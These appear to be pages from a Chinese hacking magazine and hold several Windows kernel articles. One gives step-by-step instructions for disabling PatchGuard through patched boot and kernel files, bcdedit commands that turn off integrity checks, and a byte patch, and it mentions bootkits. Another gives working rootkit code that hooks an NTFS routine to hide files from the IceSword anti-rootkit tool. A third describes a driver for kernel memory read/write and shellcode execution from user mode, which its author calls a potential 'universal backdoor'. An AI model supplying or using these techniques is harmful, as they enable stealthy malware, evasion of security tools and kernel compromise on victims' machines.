保存被我们修改过的 WINLOAD.EXE 为 OSLOADER.EXE（或者其他的名字也行），并且重新计算 PE 校验和（用 LordPE 或者 CFF Explorer 实现）。并把 OSLOADER.EXE 复制到 \Windows\System32 下。

## 创建新的 BCD 项目（译者注：作者直接给出了批处理代码）

```bash
bcdedit /copy {current} /d "PatchGuard Disabled"
bcdedit /timeout 10
bcdedit /set {01234567-89ab-cdef-00ff-ffff000fffff} nointegritychecks 1
bcdedit /set {01234567-89ab-cdef-00ff-ffff000fffff} recoveryenabled 0
bcdedit /set {01234567-89ab-cdef-00ff-ffff000fffff} path \Windows\system32\osloader.exe
bcdedit /set {01234567-89ab-cdef-00ff-ffff000fffff} kernel ntkrnlmp.exe
```

## 跳过对 PatchGuard 的初始化（无需驱动）

关于 PatchGuard，我们确定有一个叫 KiInitializePatchGuard 的函数被 KiFilterFiberContext 所调用。KiInitializePatchGuard 是一个位于 NTOSKRNL 的 INIT 节里的大函数，你能通过来自 KiFilterFiberContext 的两个调用轻松定位它。首先得到被导出的 DWORD 值 InitSafeBootMode 的地址，然后搜索“db 20h dup(90h) + db 044h”或者“48 81 EC 58 0F 00 00”（译者注：作者这里有点表述不清，但不影响全局思路，原文在附件里有）。

如果启动到安全模式，则 PatchGuard 不会被初始化。所以使 PatchGuard 失效我们只需要给一个条件跳转打补丁。

```
KiInitializePatchGuard:
原始代码 -->>
INIT:000000014055D359    sub rsp, 0F58h
INIT:000000014055D360    xor edi, edi
INIT:000000014055D362    cmp cs:InitSafeBootMode, edi
INIT:000000014055D368    jz short loc_14055D371
INIT:000000014055D36A    mov al, 1
INIT:000000014055D36C    jmp loc_1405600D9

修改后的代码 -->>
INIT:000000014055D359    sub rsp, 0F58h
INIT:000000014055D360    xor edi, edi
INIT:000000014055D362    cmp cs:InitSafeBootMode, edi
INIT:000000014055D368    nop
INIT:000000014055D369    nop
INIT:000000014055D36A    mov al, 1
INIT:000000014055D36C    jmp loc_1405600D9
loc_1405600D9 <<-- 到 KiInitializePatchGuard 末尾且返回到 KiFilterFiberContext。
```

一个重要的细节：第一个在 KiInitializePatchGuard 的跳转绝对不能使“按位与 al”为 1，当我们返回到 KiFilterFiberContext，必须采取跳转且不能使 EBX 被清零（否则你就享受无尽的 BSOD 吧）。

与之前相同，NOP 掉在 KiInitializePatchGuard 里的第一个跳转，用不同的名字保存修改过的 ntoskrnl.exe，比如 ntkrnlmp.exe，重新计算校验和，最后把你修改过的内核文件复制到 \Windows\system32 中。

当你重启系统，加载你修改过的内核，应该会成功的。系统会被加载但不会初始化 PatchGuard，结果就是允许你再次随意玩弄内核模式而不会有 BSOD 的后果。按照这个思路做成 MBR BOOTKIT 是不错的，但这并不是本文的意图。

## 译者的话

我在文章《Win64 上实现内核级 Inline Hook》的附件里附带了一个使 PatchGuard 失效小工具（名为 disable_pg_cs），就是本文作者根据这个思路做成的软件。我在感叹作者思路精妙的同时，也感叹外国人对技术交流的豁达心态，如果这个思路是中国人提出来的，恐怕就不会公开了。让我最记忆深刻的是以前在国内的内核论坛问类似这种“邪恶”的问题，回帖基本是以下三种：

- 不回答你的问题，反而说你要做坏事，最后再骂你几句；
- 某些所谓的“内核界名人”说点类似“先找到 XX，再干掉 YY”之类含糊其辞的废话，总之就是不想让你明白；
- 要你出几万块钱购买 dll 文件，但不给你 dll 文件的源码。

所以我现在有什么关于 Windows 内核的疑问，都会到国外的 Windows 内核论坛上问，外国人总是很明确地回答我的问题，基本不玩虚的。当然我说这话没有崇洋媚外的意思，只是希望国内的学术风气能够好一些，大家都尽量公开自己的研究成果，没必要对同胞也搞技术封锁。

前置知识：VC

关键词：HAL，端口 I/O，NTFS


# HAL 反汇编端口 I/O

图/文 ywledoc

关于文件保护的话题，笔者记在前几期的《黑防》中进行了一些个人分析。根据 IRP 的下发流程，从系统的文件驱动 ntfs.sys 到 atapi.sys 的 dispatch hook 和深度的 AtapiStartIo hook，共计三篇。可以说，从 IRP 发送到文件驱动开始，到下发至 atapi 的 dispatch，以及 atapi 的一些内部处理，都大致讲了一遍。

如果读者没有忘记前面几期的内容，那么应该知道 atapi 后是在 HAL.DLL 中进行端口 I/O 处理的。那么本次笔者就带大家来初步了解 HAL 中所做的一些工作，以及如何自己实现直接的端口 I/O，从而绕过 atapi 这层驱动。

如果读者还记得第 6 期《Atapi 的深度 HOOK》一文的内容，那么就会知道 IdeReadWrite 这个函数起着“承上启下”的作用。这个函数的“下方”就是 I/O 端口的操作，而“上方”则是 atapi 层。那么要了解如何实现直接端口 I/O，这个函数对我们来说是至关重要的。首先这个函数的原型是：

```c
NTSTATUS IdeReadWrite(UCHAR devExt_ach, PVOID Srb)
```

下面给出一些关键的汇编代码：

```asm
.text:00011239                push    dword ptr [esi+24h] ; 0x1F7, 状态寄存器
.text:0001123C                call    ds:__imp__READ_PORT_UCHAR@4
.text:00011242                test    al, al
.text:00011244                jns     short loc_1124D
...
loc_1124D:
.text:0001124D                test    al, 40h ; 测试第 6 位(准备位)
.text:0001124F                jnz     short loc_11263
.text:00011263 ...
```

```asm
.text:00011263
loc_11263:
XREF: IdeReadWrite(x,x)+3D↑j
.text:00011263                mov     eax, [edi+18h] ; 设备可以接受命令
.text:00011266                mov     [esi+84h], eax
.text:0001126C                mov     eax, [edi+10h]
.text:0001126F                mov     [esi+88h], eax
.text:00011275                mov     byte ptr [esi+0C4h], 1
.text:0001127C                mov     eax, [edi+10h] ; Srb.DataTransferLength
.text:0001127F                add     eax, 1FFh
.text:00011284                shr     eax, 9 ; 除以 512, 扇区大小
.text:00011287                push    eax ; Value
.text:00011288                push    dword ptr [esi+10h] ; Port = 0x1F2
.text:0001128B                call    ebx ; WRITE_PORT_UCHAR(x,x)
...
.text:000112A7                mov     dword ptr [ebp+devExt_ach], eax ; 从 CDB 指令中算出起始扇区
...
.text:000112CA                push    ecx ; Value = 块地址 24~27
.text:000112CB                push    dword ptr [esi+20h] ; Port = 0x1F6
.text:000112CE                call    ebx ; WRITE_PORT_UCHAR(x,x)
.text:000112D0                push    dword ptr [ebp+devExt_ach] ; Value = 000de1cf
.text:000112D3                push    dword ptr [esi+14h] ; Port = 0x1F3
.text:000112D6                call    ebx ; WRITE_PORT_UCHAR(x,x)
.text:000112D8                mov     eax, dword ptr [ebp+devExt_ach]
.text:000112DB                shr     eax, 8
.text:000112DE                push    eax ; Value
.text:000112DF                push    dword ptr [esi+18h] ; Port = 0x1F4
.text:000112E2                call    ebx ; WRITE_PORT_UCHAR(x,x)
.text:000112E4                mov     eax, dword ptr [ebp+devExt_ach]
...
```

```asm
.text:000112E7    shr     eax, 10h
.text:000112EA    push    eax
.text:000112EB    push    dword ptr [esi+1Ch] ; Port = 0x1F5
.text:000112EB    ; 块地址 16~23 位
.text:000112EE    jmp     short loc_1135B
loc_1135B:
.text:0001135B    call    ebx
WRITE_PORT_UCHAR(x,x);
```

上面的汇编代码就算结合注释理解也很困难，因为它涉及 IDE 接口的一些技术。在 IDE 读/写时，先要对一些 IDE 的寄存器进行设置，最后才是调用 HAL 中的 `WRITE_PORT_xxxx` 或者 `READ_PORT_xxxx` 系列函数读/写数据。下面给出这些 IDE 寄存器的相关介绍。

## 1. Task File Registers 命令寄存器组

| I/O 地址 | 读（主机从硬盘读数据） | 写（主机数据写入硬盘） |
|---|---|---|
| 1F0H | 数据寄存器 | 数据寄存器 |
| 1F1H | 错误寄存器（只读寄存器） | 特征寄存器 |
| 1F2H | 扇区计数寄存器 | 扇区计数寄存器 |
| 1F3H | 扇区号寄存器或 LBA 块地址 0~7 | 扇区号或 LBA 块地址 0~7 |
| 1F4H | 磁道数低 8 位或 LBA 块地址 8~15 | 磁道数低 8 位或 LBA 块地址 8~15 |
| 1F5H | 磁道数高 8 位或 LBA 块地址 16~23 | 磁道数高 8 位或 LBA 块地址 16~23 |
| 1F6H | 驱动器/磁头或 LBA 块地址 24~27 | 驱动器/磁头或 LBA 块地址 24~27 |
| 1F7H | 状态寄存器 | 命令寄存器 |

特殊 Task File Registers 的位含义：

- `0x1F6`：7~5 位固定为 `010`，第 4 位 `0` 表示主盘，`1` 表示从盘，3~0 位为地址高位。
- 状态寄存器（`0x1F7`）：
  - 第八位：忙。`1` 表示设备正忙。
  - 第七位：准备。`1` 表示设备可以接受命令。
  - 第六位：错误。`1` 表示写错误发生。
  - 第五位：寻址。`1` 表示完成寻道操作。
  - 第四位：请求。`1` 表示请求主机数据传输。
  - 第三位：校验。`1` 表示已校正磁盘。
  - 第二位：索引。这个不重要。
  - 第一位：错误。`1` 表示前次命令时发生错误。
- 命令寄存器（`0x1F7`）：`0x20` 为读，`0x30` 为写。

## 2. Control/Diagnostic Registers 控制/诊断寄存器

| I/O 地址 | 读 | 写 |
|---|---|---|
| 3F6H | 交换状态寄存器（只读寄存器） | 设备控制寄存器（复位） |
| 3F7H | 驱动器地址寄存器 |  |

特殊控制/诊断寄存器的位含义：`0x3F6 = 0x80 [0000 1RE0]`，`R=reset`，`E=0`（enable interrupt）。

有了这些资料，再加上笔者的注释，不难知道上面的流程：先查询设备是否可以接受指令；可以则对设备的命令组寄存器进行设置，其中有对 SRB 结构中的 CDB 结构进行一些计算，得出 LBA 等数据。看过上期文章的读者对这几个结构应该不会陌生。于是可以仿照这个过程写出初始化代码，如下：

```c
WRITE_PORT_UCHAR(0x3F6, 0x0c);
WRITE_PORT_UCHAR(0x3F6, 0x08);
WRITE_PORT_UCHAR(0x1F2, 1);
```

```c
WRITE_PORT_UCHAR(0x1F3, 0);
WRITE_PORT_UCHAR(0x1F4, 0);
WRITE_PORT_UCHAR(0x1F5, 0);
WRITE_PORT_UCHAR(0x1F6, 0xE0);
```

其中第 1、2 行代码的作用分别是重置设备和启用中断。剩下的代码作用是从磁盘的 0 扇区开始读出一个扇区的内容，即 MBR。接下来应该看 `IdeReadWrite` 剩下的代码了。但是笔者在浏览 IDA 反汇编出来的代码后，却发现在 `IdeReadWrite` 的磁盘读操作分支中只进行了一些简单处理。

处理后调用了 `WRITE_PORT_UCHAR`，之后再调用了 PCIIDEXIBmArm 来启动 DMA 通道并进行数据传输。当然这不是笔者想要的，我们要做的是直接 I/O，于是只能依靠资料来推测并尝试写代码。

```c
WRITE_PORT_UCHAR(0x1F7, 0x20);
while ((READ_PORT_UCHAR((PUCHAR)0x1F7) & 0x0F) != 0x08)
    KeStallExecutionProcessor(0x96);
READ_PORT_BUFFER_USHORT(0x1F0, (PUSHORT)buffer, 512 / 2);
```

上面的代码笔者解释下。在向 `0x1F7` 端口写入 `0x20` 命令（也就是读命令）后，用 `READ_PORT_UCHAR` 从 `0x1F7` 端口中读出设备状态，并比较第四位，从而判断是否已经完成数据传输。这里注意，当 `0x1F7` 用做读时，为状态寄存器；当 `0x1F7` 用做写时，为命令寄存器。如果数据传输完成，将会从 `0x1F0` 端口读出，用 `READ_PORT_BUFFER_USHORT` 读取到自己分配的内存区即可。第一次调用 `READ_PORT_BUFFER_USHORT` 时，笔者用了 `READ_PORT_UCHAR`，读出来的数据是跳着读的，即读出前一位数据后，跳过中间一位，再读后一位。

最后运行结果与 WinHex 读出的 MBR 相比较，发现是一致的，如图 1 所示。至此，笔者从最初只是想看看 NTFS 流程，到 atapi，最后再到端口 I/O，共计四篇文章，简单讨论了三个层面对文件读/写的响应。


图 1

本文所有代码在 XPSP3 + WDK 中已编译通过，并在 XPSP3 上成功运行。本文只实现了对硬盘的读操作，并未实现写操作。示例代码也非常简单，可以说只是提供了思路，并未经过严格测试。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动

关键词：IceSword，隐藏文件，冰刃

# 绕过 IceSword 1.22 来隐藏文件


图/文 liuke_blue

某要好的同学正在做毕业设计，需要隐藏文件并指定要求绕过 Icesword.exe 最新版。以前我在《黑客防线》写过一篇关于通过 inline hook `IoCompleteRequest` 这个函数来实现文件隐藏。这个函数几乎被每个驱动调用，表示在驱动中指定 IRP 的所有操作全部完成。

最新版（八卦一下：其实 pit 去了 360 后，早就已经不更新），但是我个人仍然认为当时 Icesword 用到了很多先进技术，足以媲美国外最好的反 rootkit 工具。冰刃成了很多病毒“攻击”和“学习”的目标。

会对 `IoCompleteRequest` 被挂钩的汇编指令进行循环恢复（防止被再次 HOOK），因此这种方法已无法绕过 Icesword 1.22。但是同学的执着让我感到很无奈，没办法，那只有按他的要求去做。

去年早些时候自己曾经写了一个浏览文件的工具，采取几乎和冰刃一样的方式：通过自己构造一个 IRP，然后实现一个 `IoCallDriver`，发送查询文件的 IRP（主功能号：`IRP_MJ_DIRECTORY_CONTROL`，次功能号：`IRP_MN_QUERY_DIRECTORY`）到文件系统设备（`\FileSystem\NTFS` 或者 `\FileSystem\fastfat`）。但是通过逆向分析 IceSword 后发现，其浏览文件方式与我采取的方法有所不同。首先它对 `NtQuerySystemInformation` 函数（用来查询 NTFS.sys/fat32.sys 模块的基址）起始的 `0x30` 个字节进行恢复（防止使用的函数被别人 HOOK 过，PF 真是仔细呀），然后通过 PE 文件格式计算出 fsd 的 dispatch routine 的 RVA。

和前面获取正确的 `NtfsModuleBase` 一样，还会修复 fsd dispatch routine 起始部分指令，防止被 fsd inline hook。检查文件系统驱动对象名称是否正确。以上步骤全部执行后，然后将构造好的查询文件 IRP 发至（通过目录查询、卷分区查询等都是以文件形式打开，用文件句柄来获取的内核文件对象）`FILE_OBJECT` 指向的设备对象。这样一来，fsd hook、fsd inline hook、驱动对象劫持、常见的 IRP hook（`IoCallDriver`、`IoCompleteRequest`）等方式隐藏文件都无法绕过 IceSword 1.22。

网上某大牛提出了一种方法来隐藏文件并绕过冰刃 1.22。由于 Icesword 毕竟还是基于 OS 开发的东西，它转去执行查询文件的 fsd dispatch routine（这里以 NTFS 文件系统为例，由于本人操作系统只使用了 NTFS 文件系统），其实只能转去 Ntfs 查询文件的函数。使用 Windbg 查看 NTFS 文件系统驱动例程如图 1 所示。


图 1

这里可以看到执行 `IRP_MJ_DEVICE_CONTROL` 例程起始是调用 `Ntfs!NtfsFsdDirectoryControl` 函数，下面反汇编该函数：

```asm
u Ntfs!NtfsFsdDirectoryControl l64
f98c92c3 684c010000    push 14Ch
f98c92c8 68c8988bf9    push offset Ntfs!`string'+0x384
f98c92cd e8ce80fdff    call Ntfs!_SEH_prolog
f98c92d2 33ff          xor edi,edi
f98c92d4 897de4        mov dword ptr [ebp-1Ch],edi
f98c92d7 ff15c8b8bf9   call dword ptr [Ntfs!_imp__KeEnterCriticalRegion]
f98c92dd 6a01          push 1
f98c92df 6a01          push 1
f98c92e1 8d45b4        lea eax,[ebp-4Ch]
f98c92e4 50            push eax
f98c92e5 e82e82fdff    call Ntfs!NtfsInitializeTopLevelIrp
```

```asm
f98c92ea 8bf0          mov esi,eax
f98c92ec 8975e0        mov dword ptr [ebp-20h],esi
f98c92ef 33db          xor ebx,ebx
f98c92f1 895dfc        mov dword ptr [ebp-4],ebx
f98c92f4 395de4        cmp dword ptr [ebp-1Ch],ebx
f98c92f7 7579          jne Ntfs!NtfsFsdDirectoryControl+0x92
f98c92f9 885ddc        mov byte ptr [ebp-24h],bl
f98c92fc ff750c        push dword ptr [ebp+0Ch]
f98c92ff ff158c8b8bf9  call dword ptr [Ntfs!_imp__IoIsOperationSynchronous]
f98c9305 84c0          test al,al
f98c9307 740d          je Ntfs!NtfsFsdDirectoryControl+0x58
```

该方法借助于挂钩 `IoIsOperationSynchronous` 函数，通过栈回溯，检查 `[ebp+4] == NtfsFsdDirectoryControl` 函数。地址来判定是否是 Icesword 发送查询的 IRP。由于 Ntfs 驱动的 dispatch routine 在此处没有设置 CompletionRoutine，他通过给当前的 stackLocation 设置 CompletionRoutine（区别于 IoSetCompletionRoutine 给下层驱动设置 CompletionRoutine，而使用 IoGetCurrentIrpStackLocation 函数）：

`irpSp->CompletionRoutine = MyFilterFiles`（这里抹掉 `Irp->UserBuffer` 隐藏文件）。

但是这里要注意，IceSword 自己也实现了一个完成函数，因此 MyFilterFiles 处理完 `Irp->UserBuffer` 后，再 push 参数，call Icesword 的完成函数即可。在这里我不采取这种方法。说了这么多，难道是多余？其实不是，了解别人的思路对自己也是很有帮助的。通过 Windbg 跟踪，我发现其查询文件的（icesword1.22 采取反调试技术，我有机会再给大家介绍介绍）流程调用如图 2 所示。


图 2

函数调用流程如下：


因此在这里我要 HOOK `NtfsCommonDirectoryControl` 函数来实现文件隐藏。下面我们看一下 `NtfsCommonDirectoryControl` 函数的声明：

```c
NTSTATUS
NtfsCommonDirectoryControl(
    IN PIRP_CONTEXT IrpContext,
    IN PIRP Irp // Supplies the Irp to process
)
// This is the common routine for Directory Control called by both the fsd and fsp threads ...
```

这个函数参数里既有 IRP，本身就是查询文件目录的函数，因此决定对它动手脚了。

- 1. `NtfsCommonDirectoryControl` 的函数地址如何获取？它既不是导出函数，也不在 NTFS.SYS 的导入表里面，因此采取特征码搜索。因为该函数会被 `NtfsFsdDirectoryControl` 函数调用，而 `NtfsFsdDirectoryControl` 函数是 NTFS 的查询文件分发例程函数。
- 2. 如何实现隐藏文件的函数？在查询到文件的 IRP 里抹掉需要隐藏的文件，再返回给 `NtfsFsdDirectoryControl` 函数，也就是由该函数返回给 Icesword1.22 查询到的文件链表（但是这个 IRP 已经是被我们抹去了需要隐藏文件后的 IRP 了）。

核心代码如下：

```c
ULONG FindNtfsXXFuncRVA(IN PCWSTR FullFilePath)
{
    HANDLE hFile;
    UNICODE_STRING uniFullpath = {0};
    OBJECT_ATTRIBUTES oa = {0};
    IO_STATUS_BLOCK iosb = {0};
    NTSTATUS status = STATUS_SUCCESS;
    ...
    RtlInitUnicodeString(&uniFullpath, FullFilePath);
    InitializeObjectAttributes(&oa, &uniFullpath, OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE, NULL, NULL);
    status = IoCreateFile(&hFile, ...);
    if (NT_SUCCESS(status)) {
        ...
        status = ZwReadFile(...);
        if (!NT_SUCCESS(status)) return result;
        if ((WORD)PESignature != 0x4550) return result;
        ...
    }
}
```

```c
// 得到 PE 文件的 OEP
status = ZwReadFile(hFile, NULL, NULL, NULL, &iosb, &AddressOfEntryPoint, 4, &byteOffset, NULL);
if (NT_SUCCESS(status)) {
    byteOffset.LowPart = NtHeadersOffset + 0x50;
    byteOffset.HighPart = 0;

    // 得到 PE 文件装入内存的总大小
    status = ZwReadFile(hFile, NULL, NULL, NULL, &iosb, &SizeofImage, 4, &byteOffset, NULL);
    if (NT_SUCCESS(status)) {
        byteOffset.LowPart = NtHeadersOffset + 0x34;
        byteOffset.HighPart = 0;

        // 得到 PE 文件的 ImageBase 的位置
        status = ZwReadFile(hFile, NULL, NULL, NULL, &iosb, &ImageBase, 4, &byteOffset, NULL);
        if (NT_SUCCESS(status)) {
            NeedSize = SizeofImage - AddressOfEntryPoint;
            if (NeedSize <= 0) return result;

            FileContent = ExAllocatePoolWithTag(NonPagedPool, NeedSize, 0);
            if (FileContent) {
                byteOffset.LowPart = AddressOfEntryPoint;
                byteOffset.HighPart = 0;

                // 得到 PE 从 OEP 开始的代码，因为含有 dispatch routine 的 RVA
                status = ZwReadFile(hFile, NULL, NULL, NULL, &iosb, FileContent, NeedSize, &byteOffset, NULL);
                if (NT_SUCCESS(status)) {
                    for (i = 0; i <= NeedSize; i++) {
                        if ((FileContent[i] == 0xC7) && (FileContent[i + 1] == 0x46) && (FileContent[i + 2] == 0x68)) {
                            OldIrpDispatchRoutine = *(DWORD*)(&FileContent[i + 3]);
                            break;
                        }
                    }
                }

                ExFreePoolWithTag(FileContent, 0);
                if (OldIrpDispatchRoutine) {
                    FileContent2 = ExAllocatePoolWithTag(NonPagedPool, 0x100, 0);
                    if (!FileContent2) return result;

                    RtlZeroMemory((PUCHAR)FileContent2, 0x100);
                    NtfsCodestartAddress = OldIrpDispatchRoutine - ImageBase;
                    byteOffset.LowPart = NtfsCodestartAddress;
                    byteOffset.HighPart = 0x0;

                    status = ZwReadFile(hFile, NULL, NULL, NULL, &iosb, FileContent2, 0x100, &byteOffset, NULL);
                }
            }
        }
    }
}
```

```c
{
    i = 0;
    while (i < 0x100) {
        if ((FileContent2[i] == 0xFF) && (FileContent2[i + 1] == 0x75) && (FileContent2[i + 2] == 0xE4) && (FileContent2[i + 3] == 0xE8)) {
            CallHook = *(DWORD*)(&FileContent2[i + 4]);
            CallHook += 8;
            CallHook += i;
            break;
        }
        i++;
    }

    ExFreePoolWithTag(FileContent2, 0);
    result = NtfsCodestartAddress + CallHook;
    ZwClose(hFile);
    return result;
}

ZwClose(hFile);
return result;
```

```c
NTSTATUS Fake_NtfsCommonDirectoryControl(IN PVOID IrpContext,
                                         IN PIRP Irp)
{
    PIO_STACK_LOCATION IrpStack;
    PVOID buf;
    ULONG buflen;
    NTSTATUS status;
    PFILE_BOTH_DIR_INFORMATION currentDirInfo;

    IrpStack = IoGetCurrentIrpStackLocation(Irp);
    if ((IrpStack->MajorFunction == IRP_MJ_DIRECTORY_CONTROL) &&
        (IrpStack->MinorFunction == IRP_MN_QUERY_DIRECTORY) &&
        (IrpStack->Parameters.QueryDirectory.FileInformationClass == FileBothDirectoryInformation)) {

        status = OriginalNtfsCommonDirectoryControl(IrpContext, Irp);
        if (NT_SUCCESS(Irp->IoStatus.Status) && (Irp->IoStatus.Information > 0)) {
            buf = MapUserBuffer(Irp);
            buflen = Irp->IoStatus.Information;
            HideFile(buf, &buflen, Irp);
        }
    }
}
```

```c
VOID HideFile(IN OUT PVOID buf, IN PULONG lpBufLength, OUT PIRP Irp)
{
    PFILE_BOTH_DIR_INFORMATION currentDirInfo = (PFILE_BOTH_DIR_INFORMATION)buf;
    PFILE_BOTH_DIR_INFORMATION lastDirInfo = NULL;
    BOOLEAN bLastOne;
    ULONG strlen = wcslen(HIDESYS);
    do {
        bLastOne = !(currentDirInfo->NextEntryOffset);
        if (!_wcsnicmp(currentDirInfo->FileName, HIDESYS, strlen)) {
            DbgPrint("HideFile=%ws\n", currentDirInfo->FileName);
            if (bLastOne) {
                if (currentDirInfo == (PFILE_BOTH_DIR_INFORMATION)buf) {
                    RtlZeroMemory(buf, Irp->IoStatus.Information);
                    Irp->IoStatus.Information = 0;
                    Irp->IoStatus.Status = STATUS_NO_MORE_FILES;
                } else {
                    currentDirInfo->NextEntryOffset = 0;
                }
                break;
            }
        }
```

```c
        else {
            // 指针往后移动，考虑到是文件链表的形式
            int iPos = ((ULONG)currentDirInfo) - (ULONG)((PFILE_BOTH_DIR_INFORMATION)buf);
            int iLeft = (ULONG)*lpBufLength - iPos - currentDirInfo->NextEntryOffset;
            RtlCopyMemory((PVOID)currentDirInfo,
                          (PVOID)((char*)currentDirInfo + currentDirInfo->NextEntryOffset),
                          (ULONG)iLeft);
            continue;
        }
        lastDirInfo = currentDirInfo;
        currentDirInfo =
            (PFILE_BOTH_DIR_INFORMATION)((char*)currentDirInfo + currentDirInfo->NextEntryOffset);
    } while (!bLastOne);
    return;
}
```

详细代码请看源文件。为了得到正确的 `NtfsCommonDirectoryControl` 函数地址，主要是怕 Ntfs 的分发例程函数被别人 HOOK，因此采取从原始文件读取。略微修改我写的这个函数，可以找到所有 Ntfs 的原始分发例程函数。编译测试环境：Windows XP SP3 + WDK7600，并且测试分区文件格式为 NTFS 文件系统。利用最新 Icesword1.22 测试，如图 3 所示。


图 3

你会发现 Icesword1.22 已经找不到隐藏文件（deephidefile.sys）。

文章到这里就结束了。细心的读者会发现，用驱动隐藏自身后，Icesword1.22 查找文件里有一处没有文件名、大小、占用空间为 0，时间是 1601-xx-xx（奇怪的日期）的项，而这一项其实就是我们隐藏的文件。是因为我在隐藏文件函数里只是抹去了文件名，估计 Icesword1.22 从文件链表的长度来计算文件个数，因此虽然在 IRP 抹掉了文件名，也就是存放文件名的那部分内存被清 0，但是 Icesword1.22 通过链表个数还是计算出有这么一个文件。不过 Icesword1.22 已经找不到那文件，对这个文件更没法操作（删除、复制、强制删除都不行），90% 的隐藏，但还不是 100%。

黑防读者不要问我为什么不做到 100% 的完美隐藏，因为我只是为了帮同学的忙而已，并不是专程用来做病毒木马，开个玩笑。有时间再给大家讲讲如何在 Icesword1.22 下做 DLL 隐藏、注册表隐藏……希望各位黑防能够喜欢！

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC

关键词：Ring3，内核函数，用户模式

# 在 Ring 3 调用内核函数

文 胡文亮


在用户模式调用内核函数，是我很久以前的想法。这个想法可以追溯到 2008 年 4 月，那时我还不懂 C 语言，也不会玩驱动，只会 VB6。看到《黑客防线》上的代码全部是使用 C 语言写的，心里很不痛快，但是又没有办法，于是“很傻很天真”地去国内某个知名的论坛发帖，希望某个“大牛”能制作一个组件，让我在用户模式调用内核函数。结果可想而知，得到的只是无情的嘲笑和恶意的侮辱（它们认为这是不可能的，说我异想天开）。后来我自学了 C 语言和汇编语言，又学会了玩驱动，这个想法也就渐渐淡忘了。

最近我在翻看我以前写的日记时，想起了那段屈辱的时光，决定自己写出这个组件，发泄心中的愤怒。那些自以为是的“大牛”不是说不行么？我偏偏就做出来给你们看！

以上是真的吗？如果你不相信，可以理解成我忽悠你的。但有一点可以确定，我肯定不会单纯为了发泄愤怒而写代码，写代码必然是为了方便以后工作。有些时候，我们的软件偶尔要调用一两个内核函数（比如想获得某进程的 EPROCESS，调用 `PsLookupProcessByProcessId` 能很方便地获取 EPROCESS，而纯 Ring 3 方法要用几个 Zw 函数才能获得），如果为了调用一两个函数就写驱动，就会让人感到很不方便（特别是那些没有玩过驱动的人）。如果没有安装 WDK，还要先安装 WDK，费时费力。所以我决定设计一个组件，能在 Ring 3 实现驱动的大部分功能，在非必要的情况下不用写驱动。

在设计这个组件之前，很有必要了解我们平时在写驱动时都干了些什么。我至今也写过不少驱动了，复制别人的代码来自娱自乐则更多。我发现，写驱动基本在干三类事情：第一类是变量、结构体赋值、指针操作等；第二类是调用内核函数；第三类是内嵌 ASM 代码，实现一些很细微的操作。

了解了这个主要矛盾之后，我们着重解决矛盾的主要方面：调用内核函数（注：内核函数必须是 `ntoskrnl.exe` 导出的或者是 SSDT 函数，WDK 内置的一些宏函数不算，比如 `_enable()`、`__readcr0()` 之类的）。还有一个目的，就是如果有机会把这个驱动加上数字签名，它基本上就成为“万能后门”了，原因是不言而喻的。

在谷歌上搜索“Ring3 调用 Ring0 代码”，但搜索结果让人啼笑皆非：全部是“Ring0 调用 Ring3 代码”，跟我们的意图刚好相反。不过搜索结果说明，在 Ring3 调用内核函数是比较难的，至少现在还没有几个人实现。不过呢，还是有人做出来了。据我所知，陈辉早在 2007 年就实现了这个想法。有了前辈的成功经历，我做的时候信心就多了，起码在遇到困难时没有半途而废。

在分段分析代码之前，先说说我的整体构架。首先设计一个驱动，用于执行内核函数。再在 Ring 3 设计一套函数，调用驱动的各个 IOCTL，封装出 8 个功能函数。它们的原型如下（这套函数是用 VB 写的，为了节省篇幅和避免解释 VB 的特殊细节，所以把 VB 的函数原型转换成 C 语言的原型）：

| 函数原型 | 说明 |
|---|---|
| `long AllocateKernelBuffer(long len)` | 申请长度为 `length` 的内核内存，返回内存起始地址 |
| `void FreeKernelBuffer(long p)` | 释放内核内存，传入内存起始地址 |
| `long ReadKernelMemory(long p, long len, long ob)` | 读取内核内存，传入内核内存起始地址、长度、输出缓冲区，返回状态 |
| `long ModifyKernelMemory(long p, long len, long ib)` | 写内核内存，传入内核内存起始地址、长度、输入缓冲区，返回状态 |

（表格后续内容在图中未完整展示）

| 函数原型 | 说明 |
|---|---|
| `void SetKernelFunctionParams(long pid, long pval)` | 设置内核函数的参数，传入参数 ID（从左到右，从零开始）和参数值 |
| `long InvokeKernelFunction(long fn_ptr, long pc)` | 调用内核函数，传入函数地址和参数个数，若有值则返回值 |
| `long GetKernelProcAddress(BSTR fn)` | 获得内核函数的地址，传入函数名 |
| `void RunKernelShellCode(long p)` | 运行内核 shellcode |

实现的代码如下：

```vb
'申请内核缓冲区
Public Function AllocateKernelBuffer(ByVal Length As Long) As Long
    Dim RetVal As Long
    With DrvController
        .IoControl .CTL_CODE_GEN(&H801), VarPtr(Length), 4, VarPtr(RetVal), 4
    End With
    AllocateKernelBuffer = RetVal
End Function

'释放内核缓冲区
Public Sub FreeKernelBuffer(ByVal KPtr As Long)
    With DrvController
        .IoControl .CTL_CODE_GEN(&H802), VarPtr(KPtr), 4, 0, 0
    End With
End Sub

'读取内核数据：内核地址、长度、输出缓冲区（用户地址）
Public Function ReadKernelMemory(ByVal Address As Long, ByVal nSize As Long, ByVal OutBuffer As Long) As Long
    With DrvController
        .IoControl .CTL_CODE_GEN(&H900), VarPtr(Address), 4, 0, 0
        ReadKernelMemory = .IoControl(.CTL_CODE_GEN(&H803), 0, 0, OutBuffer, nSize)
    End With
End Function

'修改内核数据：内核地址、长度、输入缓冲区（用户地址）
Public Function ModifyKernelMemory(ByVal Address As Long, ByVal nSize As Long, ByVal InBuffer As Long) As Long
    With DrvController
        .IoControl .CTL_CODE_GEN(&H900), VarPtr(Address), 4, 0, 0
        ModifyKernelMemory = .IoControl(.CTL_CODE_GEN(&H804), InBuffer, nSize, 0, 0)
    End With
End Function

'设置内核函数的各个参数（从左到右，从零开始）
Public Sub SetKernelFunctionParams(ByVal ParamId As Long, ByVal ParamVal As Long)
    With DrvController
        .IoControl .CTL_CODE_GEN(&H901), VarPtr(ParamId), 4, 0, 0
        .IoControl .CTL_CODE_GEN(&H805), VarPtr(ParamVal), 4, 0, 0
    End With
End Sub

'调用内核函数
Public Function InvokeKernelFunction(ByVal KernelFunctionAddress As Long, ByVal ParamCount As Long) As Long
    Dim RetVal As Long
    With DrvController
        .IoControl .CTL_CODE_GEN(&H902), VarPtr(KernelFunctionAddress), 4, 0, 0
